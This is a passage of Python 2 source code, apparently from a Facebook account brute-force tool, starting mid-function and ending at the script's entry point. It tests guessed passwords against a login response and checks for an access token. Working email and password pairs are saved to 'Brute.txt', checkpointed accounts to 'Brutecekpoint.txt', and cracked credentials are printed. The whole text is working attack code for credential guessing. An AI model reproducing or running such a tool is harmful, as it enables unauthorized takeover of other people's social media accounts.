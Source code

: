                     if 'access_token' in mpsh:

                        dapat = open('Brute.txt', 'w')

                        dapat.write(email + ' | ' + pw + '\n')

                        dapat.close()

                        print '\n\033[1;97m[+] \033[1;97mFounded.'

                        print 52 * '\033[1;97m\xe2\x95\x90'

                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email

                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw

                        keluar()

                    else:

                        if 'www.facebook.com' in mpsh['error_msg']:

                            ceks = open('Brutecekpoint.txt', 'w')

                            ceks.write(email + ' | ' + pw + '\n')

                            ceks.close()

                            print '\n\033[1;97m[+] \033[1;97mFounded.'

                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"

                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'

                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email

                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw

                            keluar()

                except requests.exceptions.ConnectionError:

                    print '\033[1;97m[!] Connection Error'

                    time.sleep(1)

        except IOError:

            print '\033[1;97m[!] File not found...'

            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""

            super()

if __name__ == '__main__':

	login()
